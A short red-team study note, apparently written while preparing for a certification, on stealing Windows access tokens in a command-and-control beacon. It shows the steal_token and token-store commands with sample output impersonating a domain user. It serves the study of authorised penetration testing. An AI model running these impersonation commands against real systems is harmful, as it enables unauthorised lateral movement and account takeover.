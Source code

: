 Processes have [[Access Token]]s associated to them that you can steal.

You can do this technique via [[Pass the Ticket]] by obtaining tickets first and then stealing the token from the injected process. 

If you don't have tickets, but you are running on a elevated session, search for processes being run by other users, pick one and run:

`	steal_token [PID of process to steal token from] `

Now you'll be running things as that user.

##  📗 Token Store 

Allows to steal, store, and re-use tokens you have stolen during your engagement. We can use it like this:

1) steal and store the token

```
beacon> token-store steal 5536
[*] Stored Tokens

 ID   PID   User
 --   ---   ----
 0    5536  DEV\jking
```

2) use a stored token

```
beacon> token-store use 0
[+] Impersonated DEV\jking
```

Other commands:

```
token-store show : list all tokens
token-store remove [id] : remove a token
token-store remove-all : remove all tokens
```

The store works per beacon and can't be transferred.




### Properties
---
📆 created   {{14-02-2024}} 09:50
🏷️ tags: #redteam #crto 

---

